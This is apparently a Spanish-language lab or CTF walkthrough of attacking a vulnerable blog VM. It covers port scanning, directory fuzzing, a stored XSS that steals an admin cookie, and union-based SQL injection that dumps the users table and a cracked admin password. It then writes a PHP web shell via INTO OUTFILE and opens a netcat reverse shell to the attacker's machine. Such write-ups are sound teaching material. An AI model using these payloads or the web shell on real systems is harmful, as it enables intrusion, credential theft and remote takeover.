- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web-\(-80-)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso--www-data-)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web (80)



### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
|             | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('')</script>
```



Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.



Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox



----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`



#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```



#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```



#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```




Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.



```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar




#### Shell Inverso (www-data)

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.




<!---->
